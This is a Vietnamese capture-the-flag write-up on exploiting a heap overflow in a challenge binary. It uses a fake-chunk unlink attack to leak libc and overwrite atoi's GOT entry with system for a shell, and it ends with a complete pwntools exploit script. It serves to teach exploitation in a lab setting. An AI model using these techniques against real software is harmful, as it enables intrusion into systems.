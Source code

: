 # Heap_Exploit - Heap4

# 1. Xem thông tin file

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
pwn4_ul_patched: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-2.23.so, for GNU/Linux 2.6.32, BuildID[sha1]=5b72263ca214a77e25ca46bec6ac2ac2c91ce268, not stripped

```
Đây là file 64-bit không bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x3ff000)
RUNPATH:  b'.'
```

Tiếp đến chạy thử chương trình:

![run.png](images/run.png)

Ở đây chúng ta có 5 options sử dụng heap, mà tên file là `pwn4_ul` 

-> `unlink_heap_exploit`

# 2. Khai thác

- Bước 1: Tạo 5 chunk có kích thước lớn để đưa vào 

```
create(0, 0x80 ,b"\x01")
create(1, 0x80, b"\x02")
create(2, 0x80, b"\x03")
create(3, 0x80, b"\x04")         #This is the chunk we use to make fake chunk 4
create(4, 0x80, b"\x05")
create(5, 0x80, b"\x06")
```

Chunk cấp phát của chúng ta cần > 0x78 để khi free có thể vào được `unsortedbin`

- Bước 2: Tạo 1 fake chunk

```
store=0x6020e0
payload=p64(0)+p64(0x80)+p64(store)+p64(store+8)+b"\x00"*0x60+p64(0x80)+p64(0x90)
edit(3, 0x90, payload)
delete(4)
```

Do ở hàm edit có thể overflow được nên ta sẽ lợi dùng heap_overflow ở đây.

Chúng ta tạo fake chunk tại chunk_3

Khi đó fake chunk tại chunk 3 sẽ trông như sau:

![fake.png](images/fake.png)

Với `0x6020e0` là fd hay forwarding pointer dùng để trỏ tới chunk tiếp theo trong free list. 

Sau đó ta free fake chunk đó tại vị trí thứ 4:

![fake2.png](images/fake2.png)

Nhìn vào free list `unsortedbin`

Chunk tiếp theo là `0x78a1c1` (địa chỉ của fake_chunk ta vừa giải phóng). Khi đó địa chỉ `0x6020e0` sẽ trỏ đến `0x78a1c1`.

![fake1.png](images/fake1.png)

Tiếp theo nhìn vào địa chỉ `0x78a1c1` là phần data của chunk thứ 3

-> Chúng ta sẽ sửa data chunk_3 và ghi vào địa chỉ `0x6020e0` 

- Bước 3: Leak libc_base:

```
edit(3, 0x8, p64(0x602020))
show(0)
p.recvuntil(b"Data = ")
libc=int.from_bytes(p.recv(6),"little")-424032
log.info("[+]libc base"+hex(libc))
```
Tại sao chúng ta lại ghi vào `0x6020e0`?

![store1.png](images/store1.png)

Đây là địa chỉ của `store`. Nơi đây lưu địa chỉ của chunk's data

Và đầu của địa chỉ này là data của chunk_0.

Khi ta ghi đè vào đây bằng `0x602020` là địa chỉ của `puts@got.plt` 

-> Khi show heap_0 sẽ lấy giá trị tại đây ra và leak được libc.

- Bước 4: Ghi đè `system` vào `atoi_got`

```
atoi_got=0x602068
system=libc+0x3f550
edit(3, 8,p64(atoi_got))				#over_write atoi_got to system (readInt() func)
edit(0, 8,p64(system))
p.sendafter(b">\n",b"/bin/sh")
```

Ở hàm edit_heap() có 1 hàm readInt() mà return atoi(nptr), ở đây `nptr` là ta nhập vào 

-> Ghi đè atoi() thành system() rồi nhập `/bin/sh` để thực thi.

Như đã nói ở trên, ở vị trí data của chunk_3 là ta sẽ ghi được vào địa chỉ `0x6020e0`. Data chunk_0 ta sẽ có địa chỉ tại `0x6020e0`

-> Khi đó ta ghi data chunk_0 vào data chunk_3

-> Ghi địa chỉ hàm system() vào atoi_got

# Full code:

```
from pwn import*
context.log_level       = "DEBUG"
context.arch            = "amd64"

elf = context.binary = ELF('./pwn4_ul_patched', checksec=False)

p = process("./pwn4_ul_patched")

#gdb.attach(p, gdbscript='''
#vis
#''')

def create(idx,size,data):
    p.sendafter(b">\n",b"1")
    p.sendafter(b"Index:",str(idx))
    p.sendafter(b"Input size:", str(size))
    p.sendafter(b"Input data:",data)

def show(idx):
    p.sendafter(b">\n",b"2")
    p.sendafter(b"Index:",str(idx))

def edit(index,newsize,data):
    p.sendafter(b">\n",b"3")
    p.sendafter(b"Input index:", str(index))
    p.sendlineafter(b"Input newsize:", str(newsize))
    p.sendlineafter(b"Do you want to change data (y/n)?\n",b"y")
    p.sendafter(b"Input data:",data)

def delete(idx):
    p.sendafter(b">\n",b"4")
    p.sendafter(b"Input index:", str(idx))

create(0, 0x80 ,b"\x01")
create(1, 0x80, b"\x02")
create(2, 0x80, b"\x03")
create(3, 0x80, b"\x04")         #This is the chunk we use to make fake chunk 4
create(4, 0x80, b"\x05")
create(5, 0x80, b"\x06")

store=0x6020e0
payload=p64(0)+p64(0x80)+p64(store)+p64(store+8)+b"\x00"*0x60+p64(0x80)+p64(0x90)

edit(3, 0x90, payload)

delete(4)								#free(4) but 3 in unsoftedbin because of payload made the prog think the 3 th is unsortedbin

edit(3, 0x8, p64(0x602020))				#now all we edit chunk(3) is edit(0x6020e0). 0x6020e0 is the address of all chunk's data address
show(0)
p.recvuntil(b"Data = ")
libc=int.from_bytes(p.recv(6),"little")-424032
log.info("[+]libc base"+hex(libc))


atoi_got=0x602068
system=libc+0x3f550
edit(3, 8,p64(atoi_got))				#over_write atoi_got to system (readInt() func)
edit(0, 8,p64(system))
p.sendafter(b">\n",b"/bin/sh")

p.interactive()
```


